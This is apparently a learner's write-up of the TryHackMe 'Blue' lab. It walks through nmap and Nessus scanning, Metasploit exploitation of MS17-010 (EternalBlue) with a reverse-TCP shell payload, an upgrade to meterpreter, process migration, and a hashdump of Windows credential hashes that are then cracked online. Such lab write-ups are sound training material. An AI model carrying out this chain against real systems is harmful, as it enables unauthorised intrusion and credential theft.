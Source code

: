 ## TryHackMe - (Eternal)Blue Methodology
> Completed 18th March 2022, Revisited 12th May 2022.

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

>Edit: On my second attempt at this box I wanted to find the vulnerability via nmap.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nessus
- Metasploit.

---
### Methodology
#### Objectives/Flags
1. Flag1, This flag can be found at the system root.
2. Flag2, This flag can be found at the location where passwords are stored within Windows.
3. Flag3, this flag can be found in an excellent location to loot.

---
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra `-Pn` into the options.
```bash
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```bash
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```

![](/images/Blue_001.jpg)

>Edit: Another way this could have been discovered is through the use of nmap's script engine `nmap -T4 -Pn <Target-IP> --script=default,vuln`

![](/TryHackMe/Blue(Eternal)/images/Blue_002.jpg)

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code `ms17-010` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```bash
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
```
The following option was reccomended by the box's objective guide and I do not have a clear idea of what is does.
```bash
      set payload windows/x64/shell/reverse_tcp 
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```bash
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set sessions 1
  run
```
A new session should spawn which I opened with `sessions 2`.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
From here I verified the identity.
```bash
getsystem
  Already running as SYSTEM
getuid
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```bash
ps 
  migrate 692
```

![](/TryHackMe/Blue(Eternal)/images/Blue_003.jpg)

According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.

#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.

>Edit: I am happy with my second attempt at this box. I still have some confusion as to why we close the [0] options when searching for ms17-010 exploits.
